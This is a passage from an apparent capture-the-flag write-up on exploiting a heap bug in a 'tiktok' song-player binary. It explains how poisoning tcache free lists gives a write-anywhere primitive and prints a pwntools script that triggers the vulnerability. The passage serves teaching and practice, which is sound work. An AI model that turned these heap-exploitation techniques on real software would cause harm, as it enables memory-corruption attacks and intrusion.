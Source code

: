 __Writing Anywhere__ 
We can achieve this by tricking the heap into allocating a chunk anywhere we want in the address space. We'll do this by tricking the tcache free lists, which will be explained in detail below. 

__Writing Anything__ 
Once we can __write anywhere__ we still won't have the ability to write whatever we want. But we can use this __write anywhere__ to put a heap chunk in the `songs` array to overwrite another file descriptor to 0.  Even though we still can't write whatever we want, `play_song()` memsets the allocated bytes to 0. 

__Once we have another song with a file descriptor of 0 we can chain this with our ability to allocate a heap chunk anywhere, giving us our desired arbitrary write.__

## How many Ke$ha songs fit into a tcache bin?

First, let's check if the vulnerability we found works the way we think.

I'm using [pwntools]([https://github.com/Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)) to write my exploit: 

```python
from pwn import *

p = process(["rr", "record", "./tiktok"]) # Start a process
# p = process("./tiktok") # for running without rr 

""" Define helper functions """

def import_song(path):
    p.readuntil("Choice:")
    p.sendline("1")
    print(p.readuntil("Please provide the entire file path."))
    p.sendline(path)
    
def play_song(song):
    p.readuntil("Choice:")
    p.sendline("3")
    p.readuntil("Choice:")
    p.sendline(song)

def remove_song(song):
    p.readuntil("Choice:")
    p.sendline("4")
    p.readuntil("Choice:")
    p.sendline(song)

""" Import songs"""    
for i in range(1, 44):
    import_song("Animal/godzilla.txt")

# 44th song with fd = 46
album = "Cannibal"
import_song(album + "/" * (24-len(album))) 

""" Trigger Vulnerability """
play_song("44")
p.sendline("-1")

play_song("44")
p.sendline("-1")
p.send("A" * 100)

p.interactive()
```
To make it easier, I defined a couple helper functions from the start: `import_song()`, `play_song()` and `remove_song()`.  